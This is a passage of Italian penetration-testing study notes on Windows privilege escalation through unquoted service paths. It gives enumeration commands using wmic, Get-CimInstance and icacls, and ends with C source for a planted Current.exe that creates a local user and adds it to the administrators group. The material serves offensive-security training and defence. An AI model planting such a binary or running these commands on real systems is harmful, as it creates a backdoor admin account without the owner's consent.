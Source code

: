 ```bash
net localgroup administrators
```

## 16.2.3. Unquoted Service Paths

Se il percorso di un file eseguibile contiene uno o più spazi e non è compreso tra delle virgolette allora potrebbe essere utilizzato per scalare i privilegi.
Questo tipo di attacco viene sfruttato soprattutto quando si hanno permessi di scrittura nella cartella relativa al file eseguibile ma non si può modificare il file stesso.

Quando un processo parte viene utilizzata la funzione _CreateProcess_, se la stringa relativa al path contiene spazi può essere interpretata in vari modi:

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

In questo caso viene utilizzata la 3 opzione ovvero My.exe.

Enumerazione dei servizi in esecuzione e stoppati:

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

Un modo più efficace di enumerare alla ricerca di path ad hoc per questo attacco:

```bash
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Una volta identificato il possibile target, bisogna capire che tipo di permessi si hanno nelle cartelle ad esso collegate:

```bash
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
...
```

Una volta individuato il giusto punto dove piazzare il file bisogna caricarci un eseguibile malevolo con il nome giusto. In questo caso, siccome il path è il seguente:

```bash
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

E noi abbiamo i permessi di scrittura in _Enterprise Apps_ carichiamo un file malevolo _Current.exe_:

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```
